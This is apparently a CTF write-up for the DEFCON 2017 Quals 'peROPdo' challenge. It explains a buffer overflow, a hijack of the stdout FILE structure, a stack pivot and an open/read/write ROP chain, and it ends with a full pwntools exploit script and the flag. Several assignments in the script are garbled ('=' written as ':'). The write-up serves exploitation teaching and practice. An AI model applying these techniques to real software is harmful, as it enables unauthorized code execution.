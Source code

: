 ```yaml
---
type: ctf
title : DEFCON CTF 2017 Quals - peROPdo
tags: [DEFCON CTF, peROPdo]
date : 2017-05-02
author: Eno Leriand
featuredImage: https://media.defcon.org/DEF%20CON%2025/DEF%20CON%2025%20art/DEF%20CON%2025%20-%20stickerpack.png
---
```


**Category:** Potent Pwnables

32 bit ELF, static link, stripped, NX enabled, No PIE & canary.  

The program is a "rolling dice" program. First we input our name, then the program will ask us how many dice would we like to roll. After we input a number, the program will start generating some random data, then store them on the stack memory. The program will then print out `data[i] % 6 + 1`, which represent the numbers we roll in this round. 

There're two vulnerabilities in the program. First it use `scanf("%s", name)` to read our name, which lead to buffer overflow in the `name` buffer. Then, if we input a number that is larger than **23**, the data that program generated will overflow the `data[i]` buffer and **thus overwrite the return address** ( it will be a random data though ).  

Since the binary was stripped, I wasn't sure which algorithm the program used for randomizing, the only thing I knew is that the algorithm will use our name to generate the random data. At that moment, I thought it was just some self-implement function ( which is **NOT** correct, we'll get into that later).  

And so I thought "Hmmm, maybe I could use some symbolic execution tool to calculate the address I want to return, and do the ROP attack". **This was such a huge mistake**, since I'm not familiar with any of the symbolic execution tools -- [angr](http://angr.io/), [Triton](https://github.com/JonathanSalwan/Triton), not to mention the fresh out [manticore](https://github.com/trailofbits/manticore). Even worse, all of the tool failed to calculate the address -- Triton and manticore couldn't even execute the program, it just crashed :(  

After wasting lots of time with those symbolic execution tools, I decided to try something different -- the first vulnerability: overflowing the `name` buffer. And the result was encouraging -- since I found that I could hijack the control flow by using the `call reg` and the `call [reg+offset]` gadget ( we can control the content of several registers ). It seems that there're some `FILE*` pointer behind the `name` buffer, so we can exploit the service by [abusing the FILE structure](https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/) ( we can't control the function parameters though). 

Here I chose to use the second gadget ( `call [reg+offset]` ), since when the program execute to that line of code, its second parameter will be the `FILE*` pointer of `stdout`. I control the `eip` and jump to the middle of the main function:  
```
mov     dword ptr [esp+4], offset name
mov     dword ptr [esp], (offset aSSSS+8) ; "%s" <--- I jump to here
call    scanf
mov     eax, ds:name
mov     [esp], eax
call    sub_0804baf0
mov     dword ptr [esp], offset name
call    do_main
```

This will make the program store the `%s` string to the first parameter, then call the `scanf` function, making the program calling `scanf("%s", stdout)` -- and thus we can control the content of `stdout` !

By crafting `stdout`, we can actually hijack the control flow, while having the first parameter controlled. This allowed us to do some advanced ROP attack. Here's what I did after I controlled the `eip`:  
1. Jump to `xchg esp, eax` gadget, migrate the stack to `stdout` (which now controlled by us)  
2. Use `add esp, offset` to skip the uncontrollable member data in `stdout`  
3. Since it's a static linked binary, it's easy for us to find some gadgets and do the **open/read/write** syscall, making the service print out the flag of the challenge. (The **execve** syscall seems to be filtered out in this challenge)  


Final exploit:  
```python exp_peropdo.py 
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST : "peropdo_bb53b90b35dba86353af36d3c6862621.quals.shallweplayaga.me"
PORT : 80
ELF_PATH : "./peropdo"

context.binary : ELF_PATH
context.log_level : 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal : ['tmux', 'splitw'] # for gdb.attach

elf : context.binary # context.binary is an ELF object

if __name__ == "__main__":

    r : remote(HOST, PORT)
    #r : process(ELF_PATH)
    
    #gdb.attach(r, gdbscript=open("./ggg", "r"))
    func : 0x0806d7aa # avoid crash
    scanf : 0x08048b2a
    name : p32(scanf) + p32(func) + "\x42"*972 + p32(0x80ecdf4) + '\x00'*92  + p32(0x80ecdf8) 
    r.sendlineafter("name?", name)

    # Later the program will call scanf("%s", stdout);
    # now we can overwrite the whole stdout FILE structure

    stream : p32(0x08079824) # second gadget: add esp, 0x84....
    stream += "/home/peropdo/flag\x00" # flag path
    stream : stream.ljust(0x1c, '\0')
    stream += p32(0x804b45c) # eip, first gadget: xchg esp, eax ; ret
    stream : stream.ljust(0x48, '\0')
    stream += p32(0x080ED3E8) # pointer to null
    stream : stream.ljust(0x90, '\0')
    stream += p32(0x807982b) # third gadget: pop; ret
    stream += p32(0x80eb2a0) # fake jump table
    
    # 0x08074f2e : mov eax, 5 ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret 
    # 0x08079465 : mov ebx, eax ; mov eax, ebx ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
    pop_ebx : 0x806f322  # pop ebx;ret
    pop_eax : 0x80e3525  # pop eax;ret
    pop_ecx : 0x080e5ee1 # pop ecx ; ret 
    pop_edx : 0x0806f2fa # pop edx ; ret
    int80 : 0x806fae0    # int 0x80 ; ret 
    buf : 0x80ed000-0x100
    rop : flat(
                pop_ecx,
                0,
                pop_edx, 
                0,
                0x08074f2e, # mov eax : 5 (open), pop ebx...
                0x80eb2a4, # ptr to flag path
                [0,0,0],
                int80,              
                pop_eax,
                3, # read
                pop_ebx,
                3, #fd
                pop_ecx,
                buf,
                pop_edx,
                0x100,
                int80,
                pop_ebx,
                1, # fd,
                pop_eax,
                4, # write
                int80
              )

    r.sendline(stream + rop)
    r.interactive()
```

flag: `Thanks to Kenshoto for the inspiration! 5fbb34920c457b2e0855a174b8de3ebc`  

Later did I know (thanks to teammate [Isaac](https://poning.me/)) that there's a thing call [FLIRT](https://www.hex-rays.com/products/ida/tech/flirt/index.shtml) in IDA Pro, which can help the user identify the function call in libc. All we need to do is download a FLIRT signature database from github ( [here's](https://github.com/push0ebp/sig-database) the DB I used for this challenge ), and use **FILE --> Load File --> FLIRT signature file** to load the database. IDA will then identify the function name, making the reverse engineering less painful. By using this technique, we'll be able to identify some libc function, even the location of `stdout`.  

And that's when I found that the "self-implement random" function is actually just `srand()` & `rand()` in libc. According to [meh](https://github.com/mehQQ) from HITCON, you can just brute-force the desired return address. Moreover, because the `name` buffer address is right under the return address, so you can just use `pop esp; ret` to migrate the stack into `name` buffer, and do the ROP attack. Guess I still got a lot of shit to learn :/
